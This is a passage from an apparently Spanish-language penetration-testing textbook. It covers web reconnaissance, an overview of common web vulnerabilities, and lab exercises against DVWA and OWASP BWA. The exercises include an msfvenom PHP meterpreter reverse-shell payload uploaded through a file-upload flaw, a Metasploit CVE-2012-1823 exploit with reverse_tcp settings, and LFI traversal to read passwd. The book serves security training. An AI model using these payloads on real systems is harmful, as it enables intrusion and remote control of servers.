1. De manera similar a arpspoof, hay una herramienta de suplantación de ARP incorporada para habilitar rápidamente un ataque MITM:



Ghost Phisher proporciona muchas funciones a un evaluador de penetración a través de una interfaz sencilla y fácil de usar; incluso hay una pestaña adicional llamada **Credenciales cosechadas** que muestra todos los nombres de usuario y contraseñas que se capturaron durante cualquier ataque que se haya lanzado.


## Resumen

Durante el transcurso de este capítulo, analizamos diversas formas de técnicas de ingeniería social y métodos para defender a una persona y a una organización de ellas. Analizamos las características de identificación de los correos electrónicos de phishing y un par de herramientas de ingeniería social que vienen preinstaladas con Kali Linux. Ahora que ha completado este capítulo, podrá describir diversas formas de ataques de ingeniería social, implementar contramedidas para reducir el riesgo de ser víctima de dichos ataques y realizar un ataque informático para capturar las credenciales de usuario de una víctima imitando un sitio web de redes sociales.

Espero que este capítulo te resulte beneficioso en tus estudios y tu carrera.

En el Capítulo 14, *Realización de pruebas de penetración de sitios web*, aprenderá los conceptos básicos de las pruebas de penetración de aplicaciones web.


## Preguntas

Las siguientes son algunas preguntas basadas en los temas que hemos cubierto en este capítulo:

1. ¿Cómo se llama cuando una persona no autorizada escucha una conversación entre dos partes?
2. Un usuario ha recibido un correo electrónico que parece ser de su banco local. Al abrir el correo electrónico, el usuario encuentra una URL que dice que debe hacer clic en el enlace para restablecer su contraseña. ¿Qué tipo de ataque es este?
3. Un usuario ha recibido un SMS con una URL en su teléfono, supuestamente de un banco legítimo. Cuando el usuario hace clic en el enlace, aparece un sitio web que le pide que inicie sesión. Cuando el usuario inicia sesión con sus credenciales, se le redirige al sitio web oficial de su banco. ¿Qué tipo de ataque es este?
4. ¿Qué herramientas de ingeniería social están disponibles en Kali Linux?


## Otras lecturas

- se pueden encontrar técnicas de ingeniería social adicionales en https://www.imperva.com/learn/application-security/social-engineering-attack/


# Realización de pruebas de penetración en sitios web

Este capítulo nos aleja de los dispositivos de red habituales que estamos acostumbrados a explotar y, en cambio, nos centra en buscar vulnerabilidades en aplicaciones y servidores web.

Ser un evaluador de penetración es un trabajo genial, ya que te pagan por hackear o entrar en la red y los sistemas de otra persona, pero de forma legal.

Ser un evaluador de penetración también significa desarrollar y expandir su conjunto de habilidades a varios dominios; siempre habrá situaciones en las que se le solicitará que realice una evaluación de vulnerabilidad o una prueba de penetración en el servidor web de un cliente. Este capítulo comenzará enseñándole cómo descubrir las tecnologías subyacentes que se utilizan en un sitio web de destino y cómo descubrir otros sitios web alojados en el mismo servidor. Además, aprenderá a realizar múltiples explotaciones en un servidor web de destino cargando y ejecutando un archivo malicioso y aprovechando la **inclusión de archivos locales** (**LFI**) en un servidor vulnerable.

En este capítulo cubriremos los siguientes temas:

- Recopilación de información
- Criptografía
- Vulnerabilidades en la carga e inclusión de archivos
- Explotación de vulnerabilidades en la carga de archivos
- Explotación de vulnerabilidades de ejecución de código
- Explotación de vulnerabilidades de LFI
- Prevención de vulnerabilidades

¡Vamos a sumergirnos!


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- **Kali Linux** : https://www.kali.org/
- **Proyecto de aplicaciones web rotas de OWASP** : https://sourceforge.net/projects/owaspbwa/


## Recopilación de información

En las primeras partes de este libro, en concreto en el Capítulo 5, *Recopilación pasiva de información*, y el Capítulo 6, *Recopilación activa de información*, analizamos la importancia de realizar un reconocimiento exhaustivo de un objetivo, ya sea un único sistema, una red o incluso un sitio web. Cada prueba de penetración tiene un conjunto de directrices y etapas. Como recordará, las siguientes son las etapas de una prueba de penetración:

1. Reconocimiento (recopilación de información)
2. Escaneo (y enumeración)
3. Explotación (obtención de acceso)
4. Mantener el acceso
5. Cubriendo pistas

Recopilar la mayor cantidad de información posible sobre un objetivo nos ayuda a determinar si este tiene vulnerabilidades de seguridad y si es posible explotarlas. En la siguiente sección, comenzaremos a aprender cómo descubrir las tecnologías que se utilizan en un sitio web.

## Descubrir tecnologías que se utilizan en un sitio web

Durante la fase de recopilación de información de las pruebas de penetración de un sitio web, es importante determinar las tecnologías subyacentes que se ejecutan en el servidor web real. **Netcraft** (www.netcraft.com) es un sitio web de seguridad de Internet y minería de datos que puede ayudarnos a descubrir tecnologías web en un servidor web para cualquier sitio web determinado.

Para comenzar a utilizar **Netcraft**, siga estos pasos:

1. Dirígete a https://toolbar.netcraft.com/site_report .
2. En el sitio web, ingrese la URL del sitio web en el campo de búsqueda.

El siguiente es el resultado que se recuperó para el sitio web www.google.com :



Netcraft puede proporcionar muchos detalles sobre el sitio web de destino, incluidos los siguientes:

- - Nombre de dominio
  - Dirección IP pública
  - Registrador de dominios
  - Organización
  - Propietario de Netblock
  - Servidores de nombres
  - Contacto de administrador de DNS
  - Tipos de servidores web
  - Sistemas operativos de servidores web

Una vez recuperado el sistema operativo del servidor web y la aplicación en ejecución, ahora puedes limitar su alcance a la búsqueda de vulnerabilidades y exploits que se ajusten al objetivo.

3. Además, Puedes utilizar la utilidad **Netcat para realizar** **capturas de banners** . Esta técnica se utiliza para recuperar versiones de servicio de un demonio o aplicación en ejecución en un dispositivo de destino. Con el siguiente comando, podemos establecer una conexión entre nuestra máquina (Kali Linux) y el servidor web de destino en el puerto 80:

```markup
nc www.google.com 80

```

4. A continuación, es el momento de recuperar el banner del servidor web. Ejecuta el siguiente comando:

```markup
GET / HTTP/1.1

```

5. Presiona *Enter* dos veces y el banner del servidor web se mostrará en la parte superior. El siguiente es un fragmento que muestra el banner del servidor para la dirección www.google.com, junto con su tipo de servidor web:



Recuerda que el uso de la utilidad Netcat establecerá una sesión entre la máquina del atacante (Kali Linux) y la del objetivo. Si el objetivo es ser sigiloso (indetectable), no se recomienda este método a menos que esté falsificando su dirección IP y direcciones MAC.

Opcionalmente, esta técnica se puede realizar mediante **Telnet** . Simplemente reemplazando `nc` por `telnet` y debería obtener los mismos resultados en su ventana de terminal.

En la siguiente sección, profundizaremos en el descubrimiento de sitios web que están alojados en el mismo servidor web.

## Descubrir sitios web en el mismo servidor

Con el paso de los años, las organizaciones han dejado de alojar el sitio web de su empresa en su propio servidor local para pasar a utilizar una solución en línea basada en la nube. Existen muchas empresas de alojamiento de sitios web disponibles en la industria del comercio electrónico que ofrecen soluciones como el alojamiento de sitios web.

Los proveedores de hosting no suelen ofrecer a sus clientes un servidor dedicado para alojar su sitio web, sino un espacio compartido. En otras palabras, el servidor que aloja su sitio web también aloja los sitios web de otras personas. Esto es un beneficio tanto para el proveedor de servicios como para el cliente. El cliente paga menos, ya que simplemente comparte los recursos de un servidor con otros y el proveedor del servidor no necesita poner en marcha un servidor dedicado por usuario, lo que se traduciría en un menor consumo de energía y espacio de almacenamiento físico en el centro de datos.

Debido a que los proveedores de servicios utilizan este enfoque empresarial y de TI para proporcionar espacio compartido a sus clientes, la seguridad es una preocupación. Es como usar las computadoras en un laboratorio escolar; cada persona tiene su propia cuenta de usuario, pero aún así comparte un solo sistema. Si un usuario decide realizar acciones maliciosas en la computadora, Puedes recuperar datos confidenciales de las cuentas o perfiles de otros usuarios.

En el Capítulo 5, *Recopilación de información pasiva*, se presentó **Maltego** para que pudiéramos realizar una recopilación de información pasiva en relación con un sitio web de destino. En esta sección, vamos a utilizar Maltego una vez más para ayudarnos a descubrir sitios web alojados en el mismo servidor.

Antes de continuar, asegúrate de que se siente cómodo utilizando **Maltego** para realizar diversas tareas de recopilación de información. Si tiene dificultades para recordar cómo utilizar las herramientas esenciales de Maltego, tómese unos minutos para revisar el Capítulo 5, *Recopilación pasiva de información* .

Sigue los siguientes pasos para descubrir sitios web en el mismo servidor:

1. Añade un dominio en Maltego. Para este ejercicio, he creado un nuevo dominio utilizando un proveedor de alojamiento web gratuito. Puedes hacer lo mismo o utilizar tu nombre de dominio actual si ya tienes uno.

**No** debes utilizar el dominio de otra persona sin su conocimiento y consentimiento. Para este ejercicio, he creado y poseo únicamente el dominio de destino.

2. Haz clic derecho en la entidad Dominio y elija Todas las transformaciones | A nombre DNS – NS (servidor de nombres), como se muestra en la siguiente captura de pantalla:



Maltego tardará unos segundos en recuperar los servidores de nombres para el nombre de dominio de destino:



El proveedor de alojamiento de mi dominio personalizado utiliza dos servidores de nombres.

3. Una vez que se hayan recuperado los servidores de nombres, es hora de verificar si hay otros sitios web alojados en los mismos servidores. Haz clic con el botón derecho en un servidor de nombres y selecciona Todas las transformaciones | A dominios (Compartir este servidor de nombres), como se muestra en la siguiente captura de pantalla:



Este proceso suele tardar uno o dos minutos en completarse. Una vez finalizado, Maltego le proporcionará los resultados. Como puedes ver en el siguiente fragmento, hay varios sitios web alojados en el mismo servidor que mi dominio:



Esta técnica es muy útil para crear perfiles del servidor web de una organización de destino. A veces, puedes encontrarte con una organización que aloja su sitio web y otros sitios internos en el mismo servidor dentro de la sección DMZ de tu red. Intenta siempre realizar técnicas de enumeración para extraer los sitios de los servidores web. A veces, las organizaciones alojan su sitio de intranet en el mismo servidor web que su sitio web público. Obtener acceso a sitios ocultos puede proporcionar información útil.

**Descargo de responsabilidad**: Para proteger la confidencialidad, la información relacionada con los sitios web se ha difuminado ya que pertenece a otras partes.

En la siguiente sección, aprenderemos sobre los métodos que podemos utilizar para descubrir archivos confidenciales en un sitio web.

## Descubrimiento de archivos confidenciales

Para continuar con nuestra fase de recopilación de información en las pruebas de penetración de sitios web, intentaremos descubrir todos los archivos y directorios confidenciales en un sitio web de destino. Para realizar esta tarea, utilizaremos **DirBuster** . DirBuster es una aplicación web de fuerza bruta que fue diseñada con el objetivo de revelar todos los directorios y archivos confidenciales en un servidor web de destino.

Para este ejercicio, utilizaremos la máquina virtual **del Proyecto** **OWASP Broken Web Applications** (**BWA**) como nuestro objetivo y nuestra máquina **Kali Linux** como atacante.

Para descubrir archivos confidenciales en un servidor web, siga estos pasos:

1. Abra DirBuster navegando a Aplicaciones | 03 – Análisis de aplicaciones web | Rastreadores web y fuerza bruta de directorios | DirBuster .
2. Cuando se abra DirBuster, ingrese la dirección IP de la máquina virtual OWASP BWA en el campo URL de destino . La URL debe tener el http://192.168.56.101:80/formato
3. Opcionalmente, Puedes aumentar el número de subprocesos. Al aumentar el número de subprocesos, se aplicará más potencia de procesamiento a la aplicación y, por lo tanto, se acelerará el proceso.
4. Haz clic en Explorar para agregar una lista de palabras que DirBuster utilizará para indexar y buscar en el sitio web de destino. Si hace clic en Información de la lista, aparecerá una nueva ventana con una lista de palabras recomendada.

1. Desmarque la casilla junto a Ser recursivo .
2. Haz clic en Iniciar para comenzar el proceso.

La siguiente captura de pantalla muestra las opciones que se utilizaron para esta tarea:



Además, puedes utilizar una lista de palabras de otra ubicación, como **SecLists** .

La opción **de extensiones de archivo** se puede personalizar y es una buena manera de encontrar directorios ocultos con archivos como .baky .cfg.

Mientras DirBuster realiza su ataque de fuerza bruta, aparecerá la ventana de resultados. Para ver todos los directorios y archivos actuales, haz clic en la pestaña Resultados – Vista de lista, como se muestra en la siguiente captura de pantalla:



El código **de estado HTTP 200** indica que la operación se realizó correctamente. En otras palabras, la máquina atacante logró comunicarse con éxito con un directorio específico en el sitio web o servidor de destino.

Además, se pueden utilizar otras herramientas como **Burp Suite** y **OWASP ZAP para descubrir directorios ocultos y archivos confidenciales en un servidor web y un sitio web de destino.**

Como se vio en el fragmento anterior, la lista de directorios se encontró utilizando DirBuster. Revisa cada directorio, ya que pueden contener archivos confidenciales e información sobre el objetivo.

En la siguiente sección, veremos la importancia del robots.txtarchivo.

## robots.txt

El robots.txtarchivo contiene una lista de directorios y archivos de un servidor web. Las entradas dentro del robots.txtarchivo son creadas por el propietario del sitio web o el administrador web y se utilizan para ocultar las ubicaciones de los directorios a los rastreadores web. En otras palabras, informa a los rastreadores de un motor de búsqueda que no indexen un directorio determinado de un sitio web.

Los evaluadores de penetración agregan la robots.txtextensión al final de un nombre de dominio para acceder y ver su contenido. Las siguientes son las entradas de un robots.txtarchivo de una organización de buena reputación:



Como puedes ver, hay varios directorios. Con solo combinar cada directorio con el nombre de dominio, podrás acceder a áreas ocultas en el sitio web de destino. Usemos el directorio /administrator/:



Ahora tenemos acceso a la página de inicio de sesión del panel de control del sitio. El uso de otros directorios puede proporcionar otra información útil.

En la siguiente sección, analizaremos en profundidad los archivos descubiertos en un servidor de destino.

## Analizando archivos descubiertos

Los directorios ocultos suelen contener archivos confidenciales con información importante.


Siga los siguientes pasos para comenzar a analizar los archivos descubiertos:

1. En la ventana de resultados de DirBuster, haz clic en la pestaña Resultados – Vista de árbol . Esto le proporcionará una estructura de árbol que le permitirá expandir cada carpeta:



Al expandir la cgi-bincarpeta, podemos ver dos archivos, como se muestra en la captura de pantalla anterior. Mediante el navegador web, podemos agregar la extensión del directorio y la dirección IP del servidor para crear una URL.

1. Ingresando la http://192.168.56.101/cgi-bin/dirección, el navegador web nos muestra los archivos, fecha de última modificación, tamaño del archivo y descripción:



1. Además, podemos usarlo dirbpara comprobar archivos y directorios en un servidor web de destino. dirbnos permite realizar un escaneo rápido si usamos la siguiente sintaxis:

```markup
dirb http://192.168.56.101

```

1. Opcionalmente, puedes elegir utilizar una lista de palabras personalizada como parte de tu comando:

```markup
dirb http://192.168.56.101 <wordlist>

```

La siguiente captura de pantalla es un análisis rápido realizado por DirBuster. Si observa detenidamente, notará que DirBuster pudo descubrir directorios y archivos ocultos, junto con sus tamaños:



Realizar estas tareas puede consumir algo de tiempo y puede llevar algunos minutos o incluso horas.

En la siguiente sección, profundizaremos en el aprendizaje sobre criptografía.


## Criptografía

La criptografía es la técnica que protege los datos de personas no autorizadas en un sistema. Esta técnica implica tomar un mensaje, pasarlo a través de un algoritmo de cifrado y proporcionar un resultado conocido como texto cifrado (un mensaje cifrado):


La criptografía tiene los siguientes objetivos:

- Confidencialidad
- Integridad
- Autenticación
- No repudio

Sin embargo, las aplicaciones web pueden utilizar un código de cifrado mal diseñado dentro de su aplicación para proteger los datos que se transfieren entre el navegador del usuario final y la aplicación web, y entre la aplicación web y el servidor de base de datos.

Estas fallas de seguridad pueden llevar a que un atacante robe y/o modifique datos confidenciales en un servidor web o de base de datos.

A continuación, aprenderemos sobre varias vulnerabilidades web y cómo explotar vulnerabilidades de carga e inclusión de archivos en un servidor web de destino.


## Vulnerabilidades en la carga e inclusión de archivos

En esta sección, analizaremos varias vulnerabilidades de seguridad que permiten a un atacante realizar ataques de carga de archivos, ejecución de código e inclusión de archivos en un servidor web.

En las siguientes secciones cubriremos los fundamentos de los siguientes temas:

- **Secuencias de comandos entre sitios** (**XSS**)
- **Falsificación de solicitud entre sitios** (**CSRF**)
- **Inyección de lenguaje de consulta estructurado** (**SQLi**)
- Deserialización insegura
- Configuraciones erróneas comunes
- Componentes vulnerables
- Referencia directa a objeto insegura

¡Vamos a sumergirnos!

## XSS

Los ataques XSS se llevan a cabo explotando vulnerabilidades en una página web creada dinámicamente. Esto permite a un atacante inyectar secuencias de comandos del lado del cliente en una página web que está siendo vista por otros usuarios. Cuando un usuario desprevenido visita una página web que contiene XSS, el navegador del usuario comenzará a ejecutar la secuencia de comandos maliciosa en segundo plano sin que la víctima se dé cuenta:



Un ataque XSS generalmente se centra en redirigir a un usuario a una URL maliciosa, robo de datos, manipulación, visualización de IFRAMES ocultos y visualización de ventanas emergentes en el navegador web de la víctima.

El script malicioso incluye ActiveX, VBScript, JavaScript o Flash.

Hay dos tipos de ataques XSS:

- XSS almacenado
- XSS reflejado

En la siguiente sección discutiremos ambos en detalle.

## XSS almacenado

El XSS almacenado es **persistente** en la página web. El atacante inyecta código malicioso en la aplicación web en un servidor. El código/script se almacena permanentemente en la página. Cuando una víctima potencial visita la página web comprometida, el navegador de la víctima analizará todo el código web. Sin embargo, en segundo plano, el script malicioso se ejecuta en el navegador web de la víctima. Esto permite al atacante recuperar contraseñas, información de cookies y otra información confidencial que esté almacenada en el navegador web de la víctima.

## XSS reflejado

El XSS reflejado es un ataque **no persistente** . En esta forma de XSS, el atacante suele enviar un enlace malicioso a una víctima potencial. Si la víctima hace clic en el enlace malicioso, se abrirá el navegador web predeterminado (reflejado) en la computadora de la víctima. El navegador web cargará automáticamente la página web en la que se ejecutará automáticamente el script malicioso, capturando contraseñas, información de cookies y otra información confidencial.

A continuación, profundizaremos en CSRF.

## CSRF

Un ataque CSRF es un poco similar a un ataque XSS. Utilicemos una analogía para simplificar nuestra explicación de los ataques CSRF. Imaginemos a un usuario, Bob, que abre su navegador web e inicia sesión en el portal de clientes de su banco para realizar algunas transacciones en línea en su cuenta. Bob ha utilizado sus credenciales de usuario en el portal web de su banco; la aplicación/servidor web verifica que el usuario es Bob y automáticamente confía en su computadora como el dispositivo que se comunica con el servidor web.

Sin embargo, Bob también abre una nueva pestaña en el mismo navegador para visitar otro sitio web mientras mantiene una sesión activa en el portal web del banco (sitio de confianza). Bob no sospecha que el nuevo sitio web que visita contiene código malicioso, que luego se ejecuta en segundo plano en la máquina de Bob:



A continuación, el código malicioso inyecta una solicitud HTTP en el sitio de confianza desde la máquina de Bob. De esta forma, el atacante puede capturar las credenciales de usuario y la información de la sesión de Bob. Además, el enlace malicioso puede hacer que la máquina de Bob también realice acciones maliciosas en el sitio de confianza.

En la siguiente sección, cubriremos los conceptos esenciales de los ataques **de inyección SQL** (**SQLi**).

## SQLi

SQLi permite a un atacante insertar una serie de consultas o códigos SQL maliciosos directamente en el servidor de base de datos backend. Esto permite al atacante manipular registros, como agregar, eliminar, modificar y recuperar entradas en una base de datos:



El atacante puede aprovechar la vulnerabilidad de las aplicaciones web para eludir los controles y medidas de seguridad y acceder al servidor o aplicación de la base de datos. Los ataques SQLi se inyectan a través de la barra de direcciones del navegador web o del portal de inicio de sesión de un sitio web.

A continuación, analizaremos la deserialización insegura.

## Deserialización insegura

**La serialización** es el proceso de convertir un objeto en un tamaño de byte más pequeño para transmitirlo o almacenarlo en un archivo, una base de datos o incluso en la memoria. Este proceso permite que el objeto mantenga su estado para poder ensamblarlo o recrearlo cuando sea necesario. Sin embargo, lo opuesto a la serialización se denomina **deserialización** . Este es el proceso de recrear un objeto a partir del flujo de datos (bytes) en su forma original.

**La deserialización insegura** ocurre cuando se utilizan datos no confiables para abusar de la lógica de una aplicación, crear un ataque de denegación de servicio o ejecutar código malicioso en la aplicación, página o servidor web. En un ataque de deserialización inseguro, el atacante puede ejecutar código remoto en el servidor web de destino.

Puedes encontrar más información sobre la deserialización insegura en el sitio web de OWASP en https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization .

La mayoría de las veces, los administradores de sistemas y los profesionales de TI no toman en serio estas vulnerabilidades hasta que un ciberataque está a la vuelta de la esquina. Como evaluadores de penetración, nuestro trabajo es descubrir de manera eficiente todas las vulnerabilidades de seguridad existentes y ocultas en una organización objetivo e informar a la empresa para que ayude a proteger sus activos.

En la siguiente sección describiremos algunas configuraciones erróneas comunes en servidores web.

## Configuraciones erróneas comunes

Las configuraciones incorrectas en el servidor web pueden crear vulnerabilidades que pueden permitir a un atacante obtener acceso no autorizado a cuentas de usuario predeterminadas, acceder a páginas y directorios ocultos, explotar fallas sin parchear y realizar acciones de lectura y escritura en directorios y archivos inseguros en el servidor.

Las configuraciones de seguridad incorrectas no son específicas de ningún nivel de la aplicación web, sino que pueden afectar cualquier nivel del servidor web y la aplicación, como el sistema operativo (Windows o Linux), la plataforma del servidor web (Apache, IIS y Nginx), el marco (Django, Angular, Drupal, etc.) e incluso el código personalizado alojado en el servidor.

En la siguiente sección, analizaremos varios componentes vulnerables que se encuentran en servidores y plataformas web.

## Componentes vulnerables

Los siguientes son algunos de los componentes vulnerables comúnmente conocidos en una aplicación web:

- **Adobe Flash Player** : Adobe Flash Player se utilizaba habitualmente como reproductor multimedia dentro de un navegador web. Admite contenido de aplicaciones como vídeos, audio y juegos en línea. Sin embargo, a lo largo de los años se han descubierto y registrado muchas vulnerabilidades de seguridad, y los usuarios han dejado de utilizar este componente en sus navegadores web. Una vulnerabilidad reciente es **CVE-2018-15982**, que permite explotaciones exitosas que conducen a la ejecución de código arbitrario en un sistema de destino.
- **JBoss Application Server** : JBoss Application Server es un contenedor web Java de código abierto que puede funcionar en varias plataformas. Al momento de escribir este libro, se encontró una vulnerabilidad grave que permitía a un atacante ejecutar de forma remota código malicioso en un servidor de aplicaciones JBoss y, por lo tanto, obtener el control total del objetivo.

La vulnerabilidad afectó a todas las versiones de JBoss Application Server 4.0 y anteriores.

- **Adobe ColdFusion** : Adobe ColdFusion es una plataforma de desarrollo de aplicaciones web comercial. Su diseño fue pensado para permitir a los desarrolladores conectar fácilmente páginas HTML a una base de datos. Sin embargo, en 2018, se descubrió una vulnerabilidad crítica que permite a un atacante cargar datos en un sistema comprometido sin restricciones, lo que le permite además obtener el control del servidor mediante shells web. Esta vulnerabilidad fue registrada como **CVE-2018-15961** .

Tenga en cuenta que estos son solo algunos de los muchos componentes vulnerables que se pueden encontrar en un servidor web. Con el tiempo, los investigadores de seguridad seguirán descubriendo y registrando nuevas vulnerabilidades.

En la siguiente sección, analizaremos brevemente **la Referencia directa de objetos insegura** (**IDOR**).

## IDOR

Según OWASP ( www.owasp.org ), IDOR se produce cuando se proporciona acceso a un objeto en función de la información proporcionada por el usuario. Si se descubre que una aplicación web es vulnerable, un atacante puede intentar eludir la autorización y obtener acceso a los recursos del sistema afectado.

A continuación, demostraremos cómo explotar vulnerabilidades de carga de archivos en una máquina objetivo.


## Explotación de vulnerabilidades en la carga de archivos

En este ejercicio, vamos a utilizar nuestra máquina virtual OWASP BWA para demostrar una vulnerabilidad de carga de archivos. Comencemos:

1. Primero, crea una carga útil en tu máquina Kali Linux (atacante) usando msfvenom, que luego se cargará al servidor de destino. Usando la siguiente sintaxis, crea una carga útil basada en PHP para establecer una conexión inversa:

```markup
msfvenom -p php/meterpreter/reverse_tcp lhost=<IP address of Kali Linux> lport=4444 -f raw

```

2. Copia el código resaltado, abre un editor de texto y guarda el archivo como img.php:



1. Usando su navegador web dentro de Kali Linux, ingresa la dirección IP de OWASP BWA en la barra de direcciones y presiona *Enter* .
3. En la página principal, haz clic en **Damn Vulnerable Web Application** :



4. Aparecerá el portal de inicio de sesión de DVWA. Inicia sesión con admin/admin como nombre de usuario/contraseña :



5. Una vez que hayas iniciado sesión, verás un menú en el lado izquierdo. Haz clic en Cargar para ver la página Vulnerabilidad: Carga de archivos :



6. Haz clic en Explorar..., selecciona el archivo img.php y luego haz clic en Cargar en la página.

7. Una vez cargado el archivo, recibirás un mensaje mostrando el directorio donde está almacenado el archivo en el servidor:



8. Copia la ubicación del archivo, es decir, hackable/uploads/img.php, y pégalo en la URL para ejecutar la carga útil ( img.php). La siguiente es la URL esperada:

```markup
192.168.56.101/DVWA/ hackable/uploads/img.php

```

Presione *Enter* para ejecutar la carga útil.

9. En Kali Linux, carga Metasploit usando los siguientes comandos:

```markup
service postgresql start
msfconsole

```

10. Habilita el módulo multi/handler en Metasploit, configura la carga útil TCP inversa y ejecuta el exploit utilizando los siguientes comandos:



Asegúrate de verificar la dirección IP de la máquina Kali Linux y ajusta el parámetro LHOST en consecuencia.

1. Después de ejecutar el img.phppayload en el servidor y habilitarlo multi/handleren Metasploit, podemos recibir un shell inverso en nuestra máquina atacante, como se muestra en la siguiente captura de pantalla:



Usando el meterpretershell, ahora puedes realizar más acciones en el sistema comprometido.

En la siguiente sección, demostraremos cómo explotar vulnerabilidades de ejecución de código.


## Explotación de vulnerabilidades de ejecución de código

Cuando un dispositivo es vulnerable a la ejecución de código, un atacante o un evaluador de penetración puede ejecutar código de forma remota en el servidor de destino. Además, el evaluador de penetración podrá recuperar el código fuente almacenado en el servidor de destino.

Para completar este ejercicio, utilizaremos la siguiente topología:



Para comenzar con la explotación de la ejecución de código, siga estos pasos:

1. Intentaremos descubrir si el objetivo es vulnerable a **CVE-2012-1823** . Para descubrir si un objetivo es vulnerable, utiliza los siguientes comandos con nmap:

```markup
nmap -p80 --script http-vuln-cve2012-1823 <target IP address>


```

Es posible que Nmap no siempre devuelva resultados que indiquen que existe una vulnerabilidad en un objetivo. Sin embargo, esto no debería impedirle determinar si un objetivo es vulnerable a un exploit.

1. A continuación, dentro de **Metasploit**, use el searchcomando para encontrar un módulo de explotación adecuado para ayudarnos a aprovechar la vulnerabilidad en el objetivo:



1. A continuación, utiliza el siguiente comando para utilizar el módulo y configurar el destino remoto:

```markup
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 10.10.10.11

```

1. Además, los siguientes comandos le permiten utilizar una carga útil adecuada para establecer un shell remoto en caso de explotación y configurar su dirección IP del host local:

```markup
set payload php/meterpreter/reverse_tcp
set LHOST 10.10.10.10

```

1. Utiliza el exploitcomando para ejecutar el exploit contra el objetivo. La siguiente captura de pantalla muestra que el exploit se ejecutó correctamente en el objetivo:



La carga útil se ha enviado a la víctima y tenemos un shell inverso. Una vez que haya completado esta sección, podrá descubrir y ejecutar código en un servidor de destino.

En la siguiente sección, demostraremos cómo explotar vulnerabilidades de LFI.


## Explotación de vulnerabilidades de LFI

Los servidores vulnerables a las fallas de seguridad de LFI permiten que un atacante muestre el contenido de los archivos a través de la URL dentro de un navegador web. En un ataque LFI, el evaluador de penetración puede leer el contenido de cualquier archivo desde su directorio utilizando ../o /.

Para comenzar, volvamos a la interfaz web **de Damn Vulnerable Web Application** (**DVWA**) dentro de **OWASP BWA** :

1. En la interfaz web de DVWA, en el menú del lado izquierdo, haz clic en Inclusión de archivos :



1. Repitiendo ../unas cuantas veces e insertando el directorio del passwdarchivo, podemos ver el contenido del passwdarchivo en el servidor web de destino:



Este tipo de ataque prueba un sistema en busca de vulnerabilidades transversales de directorios. El directorio transversal permite a un atacante acceder a ubicaciones y archivos restringidos, así como ejecutar comandos en un servidor web de destino. Este atacante puede manipular las variables simplemente utilizando la dot-dot-slash (../)sintaxis dentro de la URL.

Hasta ahora, hemos realizado algunos ejercicios para explotar las distintas debilidades de un sistema de destino. En la siguiente sección, analizaremos cómo prevenir y mitigar las vulnerabilidades de seguridad.


## Prevención de vulnerabilidades

Las siguientes son contramedidas que se pueden utilizar para prevenir ataques a servidores web y aplicaciones web y remediar dichas vulnerabilidades:

- Aplicar los últimos parches y actualizaciones (estables) al sistema operativo y a las aplicaciones web.
- Deshabilite todos los servicios y protocolos innecesarios en los servidores web.
- Utiliza protocolos seguros, como el cifrado de datos de soporte, siempre que sea posible.
- Si se utilizan protocolos inseguros, implemente controles de seguridad para garantizar que no sean explotados.
- Deshabilite WebDAV si no lo está utilizando una aplicación web.
- Eliminar todos los módulos y aplicaciones no utilizados.
- Deshabilite todas las cuentas predeterminadas no utilizadas.
- Cambiar las contraseñas predeterminadas.
- Implementar políticas de seguridad para prevenir ataques de fuerza bruta, como políticas de vigilancia ante un intento fallido de inicio de sesión.
- Deshabilitar la publicación de listados de directorios.
- Supervise y verifique los registros para detectar cualquier actividad sospechosa.
- Implemente certificados digitales de **autoridades de certificación** (**CA**) confiables y asegúrate de que los certificados digitales estén siempre actualizados.
- Asegúrate de que la validación y la desinfección de los datos de entrada se implementen y prueben periódicamente.
- Implementar un **firewall de aplicaciones web** (**WAF**).

Estos elementos son simplemente un resumen de medidas preventivas que un profesional de TI puede adaptar; sin embargo, se requerirá investigación adicional ya que, cada día, se desarrollan amenazas y ataques nuevos y más sofisticados.


## Resumen

A lo largo de este capítulo, hemos analizado las técnicas que podemos utilizar para determinar tecnologías web en un servidor web y realizar ataques de simulación del mundo real en aplicaciones web de destino.

Ahora puedes descubrir las tecnologías web subyacentes que se utilizan en un servidor web de destino y realizar más enumeraciones para descubrir sitios web adicionales que se alojan en un solo servidor web. Además, al completar los ejercicios de este capítulo, tendrá las habilidades para descubrir archivos y directorios confidenciales en un servidor de destino y realizar pruebas de penetración de sitios web para explotar las cargas de archivos y las vulnerabilidades de LFI.

Espero que este capítulo haya sido útil e informativo en sus estudios y su carrera. En el próximo capítulo, Capítulo 15, *Pruebas de penetración de sitios web: cómo obtener acceso*, aprenderá a utilizar pruebas de penetración avanzadas en aplicaciones web.


## Preguntas

1. ¿Cuáles son algunas plataformas de servidor web?
2. ¿Qué herramienta(s) se pueden utilizar para descubrir archivos ocultos en un servidor web?
3. ¿Qué código de estado HTTP significa exitoso?
4. ¿Qué tipo de ataque permite a un atacante recuperar datos almacenados del navegador web de una víctima?
5. ¿Qué tipo de ataque permite a un usuario malintencionado manipular una base de datos?


## Otras lecturas

A continuación se presentan una serie de recursos de lectura adicionales:

- **Componentes vulnerables** : https://resources.infosecinstitute.com/exploring-commonly-used-yet-vulnerable-components/
- **Prueba de referencias directas a objetos inseguras** : https://www.owasp.org/index.php/Testing_for_Insecure_Direct_Object_References_(OTG-AUTHZ-004)
- **Configuración incorrecta del servidor web** : https://www.owasp.org/index.php/Top_10-2017_A6-Security_Misconfiguration


# Pruebas de penetración de sitios web: cómo obtener acceso

En este capítulo, profundizaremos mucho más en las pruebas de penetración de sitios web y bases de datos de lo que lo hemos hecho hasta ahora. Como evaluadores de penetración, debemos simular ataques reales a los sistemas y redes de una organización objetivo, según las reglas de enfrentamiento. Sin embargo, si bien poder llevar a cabo la recopilación de información, como el reconocimiento y el escaneo de sitios web, es excelente, el verdadero desafío surge cuando llega el momento de entrar. Está muy bien prepararse para infiltrarse en una base enemiga, pero toda esa preparación no servirá de nada si simplemente te quedas a distancia y no haces nada.

En este capítulo, analizaremos cómo comprometer y obtener acceso a servidores y aplicaciones web. Además, aprenderá algunas técnicas y metodologías prácticas para descubrir vulnerabilidades y recuperar datos.

En este capítulo cubriremos los siguientes temas:

- Explorando los peligros de la inyección SQL
- Vulnerabilidades y explotación de la inyección SQL
- Vulnerabilidades de secuencias de comandos entre sitios
- Descubrimiento automático de vulnerabilidades


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- Kali Linux: https://www.kali.org/
- Windows 7, 8 o 10
